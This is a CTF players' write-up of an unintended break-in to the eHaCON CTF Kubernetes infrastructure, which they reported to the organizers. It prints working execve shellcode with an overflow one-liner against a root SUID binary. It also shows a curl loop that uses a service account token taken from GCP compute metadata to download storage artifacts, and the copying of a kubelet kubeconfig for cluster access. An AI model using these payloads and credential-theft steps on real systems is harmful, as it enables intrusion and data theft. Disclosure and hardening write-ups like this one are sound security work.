






# How we hacked eHaCON CTF Infra

#### TL;DR
This is the story of how me [H-mmer#8548](https://h-mmer.xyz) and my teammate **fredd#8512** hacked ourselves into eHaCON CTF kubernetes cluster node, gaining access to all challenge containers hosted in the cluster as well as their service account token which allowed us to download all the challenge files/flags you name it.


## Storytime
All of this happened kind of on an accident while we were doing another challenge challenge which required us to use FTP in passive mode and since the passive mode didn't work on outside networks we figured to go about it by a different way. There was another challenge hosted in a container which was in the same network as the FTP server was running. So being our hacky selves we figured out a way to elevate privileges inside that other container to root so we could install FTP client in there and solve the challenge in a much, much unintended way.

##### Unintended solve
Here's the code for the privilege escalation using the BOF challenge binary which incidentally had root suid which enable all this. The binary itself didn't have any protections including no NX so it enabled us to jump to the env var with shellcode which was intended for the challenge itself.
```sh
export A=$(echo -e '\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x901\xffjqXH\x89\xfe\x0f\x05jhH\xb8/bin///sPH\x89\xe7hri\x01\x01\x814$\x01\x01\x01\x011\xf6Vj\x08^H\x01\xe6VH\x89\xe61\xd2j;X\x0f\x05')
(python3 -c 'import struct,sys;sys.stdout.buffer.write(b"A"*104+struct.pack("<Q",0x7fffffffe841))'; cat) | ./BOF
apt install ftp
```

##### Re-return (the kernel module)
After clearing out other challenges we came back to this and realized that there's some unintended kernel pwn/docker escape challenge. Fredd found out through `capsh` that there's a `cap_sys_module` which allows you to load arbitary kernel modules which would allow us to do anything in the host kernel.



Fredd went on to write a kernel module to exploit that **BUT** that didn't work since there was [additional protection](https://kernel.org/doc/html/latest/admin-guide/LSM/LoadPin.html) methods inside that specific kernel.





##### Gaining access to k8s
 So after that we went on to try a container escape [with this](https://blog.trailofbits.com/2019/07/19/understanding-docker-container-escapes/). After running the PoC we were inside the kubernetes node.
 The node was read-only filesystem and we couldn't run `kubectl get pods` straight away.
 Instead what we did was we started digging around the googleclouds computeMetadata and shortly after we found the service account token which we then used to retrieve all the artifacts from their storage.
 
 
 
 Command we used to download all the artifacts:
 ```sh
 mkdir files; for f in $(cat files.txt); do echo $f; curl -H 'Metadata-Flavor: Google' -H "Authorization: Bearer $TOKEN" $f -o "files/$(echo -ne $f|md5sum|awk '{print $1}').tar.gz"; done
 ```
 After we got all the files we kinda wanted to get the actual access to the kubernetes pods and we figured out a way to do that by finding kubelet config file in `/var/lib/kubelet/kubeconfig`, after some googling found out that `kubectl` stores its config in `~/.kube/config` so by setting `$HOME` directory for the root user in `/dev/shm` which was writable(is by default) and copying the `/var/lib/kubelet/kubeconfig` into our new home directory.
 `mkdir ~/.kube && cp /var/lib/kubelet/kubeconfig ~/.kube/config`
After that we were able to run any kubectl command.



##### Report to organizers
 After reporting our findings to the admins we went to sleep and I got a bunch of messages from the organizers/admins of the CTF thanking us for the responsible report and not breaking stuff. A while after the fixes were done, the original challenge which made all this possible was removed from the CTF since it couldn't be fixed in a way that would leave the binary solvable and also fix the security issues caused by it so the admins made the choice to remove the challenge. At that point I thought everything was fixed, but then I recalled they had another challenge which also included access to a container. Where we could once again gain the service account token through computeMetadata. After reporting that back they managed to remove the service account from the metadata listing so we couldn't get the token anymore and the metadata itself was a bit more restricted.

##### Conclusion
It's not a good idea to run privileged containers in CTF challenges that let's people inside the container also not the best idea to use root SUID binary with bufferoverflow without any protections and make sure your cloud metadata/userdata is not accessible through your challenges.